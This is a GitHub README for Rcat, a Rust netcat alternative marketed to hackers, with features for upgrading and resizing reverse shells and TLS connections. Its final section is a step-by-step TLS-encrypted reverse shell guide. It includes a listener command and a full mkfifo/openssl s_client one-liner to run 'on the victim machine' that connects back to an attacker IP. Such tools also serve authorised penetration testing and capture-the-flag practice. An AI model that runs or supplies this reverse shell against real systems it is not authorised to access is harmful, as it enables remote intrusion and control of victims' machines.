 <div align="center">

# Rcat
### A better netcat for hackers

</div>

### Overview

__Rcat__ is a modern _netcat_ written in Rust, packed with features for hackers.

<img src="images/rcat_curl.svg">

Here we listen on port `tcp:9001`, and receive an HTTP request made with `curl`.

### Install
#### Static binaries

We provide binaries for:
* [Linux amd64](https://github.com/0xfalafel/rcat/releases/latest/download/rcat_amd64)
* [Linux arm64](https://github.com/0xfalafel/rcat/releases/latest/download/rcat_arm64)
* [Windows](https://github.com/0xfalafel/rcat/releases/latest/download/rcat.exe) (amd64)
* [Mac OS](https://github.com/0xfalafel/rcat/releases/latest/download/rcat_macos) (arm64)

#### Build from source

```bash
git clone git@github.com:0xfalafel/rcat.git
cargo install --path .
```

### Features

#### Familiar syntax

Rcat keeps a syntax similar to _netcat_. You already know how to use it.

* `-l` to listen.
* `-u` for udp.

#### Shell Upgrade

Rcat can __upgrade your shells__ with the `--pwn` option.  
With an upgraded shell, you can use shortcuts like `Ctrl + C`, clear the terminal with `clear` or `Ctrl + L`, etc. It's like having an SSH connection.
There is no need to [type 7 commands](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) each time you obtain a reverse shell.

<img src="images/rcat_pwn.svg">

> Here the commands `stty rows 22 cols 65` and `export TERM=xterm-256colors` are typed automatically when the connection is received.

#### Shell Upgrade Windows

Windows is also supported by the shell upgrade feature.

<img src="images/rcat_win.svg">

#### Resize

Unless you use the `-R` option, the remote terminal will automatically be resized when you change the size of your terminal.  
> (Rcat sends a _SIGTSTP_, resizes the terminal with the `stty` command then uses `fg` to restore the application running.)

<img src="images/rcat_resize.webp">

> In this clip we run `htop` on the victim machine, and the reverse shell is automatically resized.

#### TLS support

Support of __TLS__ with `-t` or `--tls`.  
Here we do an HTTPS request. We use `-t` to establish a _TLS connection_, and `-c` to replace newlines (`\n`) with _CRLF_ newlines (`\r\n`) as required by the HTTP protocol.

<img src="images/rcat_tls.svg">

  
## Encrypted Reverse shell

With TLS support, let's see how we can do an __TLS encrypted reverse shell__. Without installing any new tools on the victim.

If possible, you should probably use a signed certificate (with [let's encrypt](https://certbot.eff.org/instructions) for example), but for now let's use a self-signed certificate.

### Generate Key and Certificate

Let's generate a __self-signed certificate__ with `openssl`.

```bash
openssl genrsa -out private-key.pem 2048
openssl req -new -x509 -key private-key.pem -out my.cert -days 365
```

### Reverse Shell

Armed with this, let's create a _listener_ that supports TLS.

```bash
rcat -l 9001 -t --cert my.cert --key private-key.pem --pwn
```

Then execute the following command on the victim machine:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| openssl s_client -connect YOUR_IP:9001 >/tmp/f
```
